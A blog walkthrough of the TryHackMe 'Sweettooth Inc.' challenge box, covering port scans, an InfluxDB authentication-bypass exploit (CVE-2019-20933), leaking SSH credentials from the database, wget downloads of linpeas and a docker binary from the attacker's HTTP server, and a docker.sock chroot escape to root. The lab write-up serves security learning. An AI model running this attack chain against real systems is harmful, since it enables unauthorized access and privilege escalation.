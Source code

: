 ```yaml
---
layout: post
title:  "Sweettooth Inc. Writeup"
date:   2024-05-22 13:15:45 -0400
categories: writeup tryhackme medium
---
```

# Introduction
This is a medium challenge box on 
[TryHackMe](https://tryhackme.com/r/room/sweettoothinc){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

# Enumeration

## Ports
As always let's run a few scans to see what ports are 
open and what services are running

### Rustscan
[Rustscan](https://github.com/RustScan/RustScan){:target="_blank"}{:rel="noopener noreferrer"}
is a helpful port scanner that runs faster than a full
nmap scan

```bash
rustscan -a VICTIM_IP
```

![rust-scan](/images/sweettooth-inc/rustscan.png)

### Nmap
We have 4 ports open so let's run some scripts against
them

```bash
nmap -A -p111,2222,8086,58425 -T4 -vv -oA ports VICTIM_IP
```

![nmap-scan](/images/sweettooth-inc/nmap.png)

There are 2 ports to take note of

- 2222: SSH
- 8086: HTTP

# Initial Foothold
> Search the internet for exploits with the running 
services and versions

According to our scan, port 8086 is running InfluxDB
version 1.3.0. Let's search the internet for some exploits

## Authentication Bypass
One of the first results is 
[CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933){:target="_blank"}{:rel="noopener noreferrer"}
which is an authentication bypass vulnerability in 
InfluxDB < 1.7.6. Version 1.3.0 fulfills that 
requirement so let's try this out!

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
cd InfluxDB-Exploit-CVE-2019-20933
pip3 install -r requirements.txt
python3 __main__.py
```

![influx-roadblock](/images/sweettooth-inc/influx-roadblock.png)

Oh no, we don't know the username! We could brute 
force usernames in the background but that won't be 
necessary. There is another way

## Username
> You don't need to brute force. Keep searching the 
> internet for exploits with the specific version

Continuing our public exploit search, we find an interesting 
[blog post](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day){:target="_blank"}{:rel="noopener noreferrer"}.
By visiting `<IP>:8086/debug/requests`  a username on the system is leaked!

![username-leak](/images/sweettooth-inc/username-leak.png)

## Database
> Did you leak everything from the database?

We have a username to bypass authentication with, so 
let's leak some data. Connect to the database with the 
previous authentication bypass exploit

```bash
python3 __main__.py
```
On the database screen type the name you want to use. 
Remember you can use `.back`  to change databases. Table 
and column names can be listed with the command

```sql
show field keys
```

Getting all data entries for a table is in the format

```sql
select * from table_name
```

We're asked two questions to leak database information. 
First we need to convert the given UTC Unix Timestamp to 
something more... readable. I used 
[this converter](https://epochtimestamp.com/){:target="_blank"}{:rel="noopener noreferrer"}
and sifted through the entries. We're looking for a 
temperature similar to the time 
`2021-05-18T10:00:00-04:00`

```sql
tanks
show field keys
select temperature from water_tank
```

![water-temp](/images/sweettooth-inc/water-temp.png)

Next we need to find the highest rpm for the mixer. 
Switch databases and sift through the entries again

```sql
.back
mixer
show field keys
select field_rpm from mixer_stats
```

![motor-rpm](/images/sweettooth-inc/motor-rpm.png)

The same process can be done to leak ssh credentials

```sql
.back
creds
show field keys
select * from ssh
```

![db-ssh](/images/sweettooth-inc/database-ssh2.png)

Let's use these ssh credentials. 
Remember from our scan that ssh is on port 2222!

```bash
ssh user@VICTIM_IP -p 2222
```

# Privilege Escalation
> linpeas will nudge you in the right direction

## linpeas
Upload the privesc script
[linpeas.sh](https://github.com/peass-ng/PEASS-ng){:target="_blank"}{:rel="noopener noreferrer"}
so we can find an avenue to escalate our privileges

```bash
# Attacker machine, in a directory with linpeas.sh
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/linpeas.sh
sh linpeas.sh
```

![docker-linpeas](/images/sweettooth-inc/docker-linpeas.png)

> User essentially has docker privileges without 
> the docker binary

`/run/docker.sock` is writable, meaning we have docker 
privileges! We can escape and elevate our privileges 
but there's one problem...

![docker-mising](/images/sweettooth-inc/docker-missing.png)

The docker binary is missing!

Normally we can install packages on Debian based systems 
with the command

```bash
sudo apt-get install <package-name> 
```

But if we could use sudo, we wouldn't have this issue in 
the first place

> If we had the docker binary available, 
> we could escalate our privileges...

Thankfully we can download the
[docker binary directly](https://download.docker.com/linux/static/stable/x86_64/){:target="_blank"}{:rel="noopener noreferrer"}!
Let's upload docker and try it out

## Docker Upload
```bash
# Attacker machine, in a directory with the docker file
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/docker-17.03.0-ce.tgz
tar xf docker-17.03.0-ce.tgz
cd docker
./docker images
```
![docker-test](/images/sweettooth-inc/docker-test.png)

Everything works, so let's elevate our privileges

# Root
> Is there a GTFO bin for docker?
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell){:target="_blank"}{:rel="noopener noreferrer"}
has an entry for creating a shell with docker

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Let's just replace alpine with a docker image we have 
access to and run the local docker binary

```bash
./docker run -v /:/mnt --rm -it influxdb:1.3.0 chroot /mnt sh
```

Root shell! Funnily enough we're already root on the host 
instead of the container. We've achieved our goal so 
let's get the remaining flags

```bash
find / -type f -name "*root.txt*" -ls 2>/dev/null
```

```bash
280243  4 -rw-r--r-- 1 root root  22 May 15  2021 /root/root.txt
  1700  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/mnt/33d446f7c7981fe737a399371821828a94aedd9af216ca12a0845a4818a48c6c/root/root.txt
927203  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
```

# Recap
A vulnerable version of InfluxDB leads to leaking a 
username as well as an authentication bypass. Database 
access leaks ssh credentials and provides a foothold into 
a docker container. We essentially have docker privileges 
since docker.sock is writable, but the docker binary is 
not available. Uploading the binary and using the docker 
gtfobin gives root.
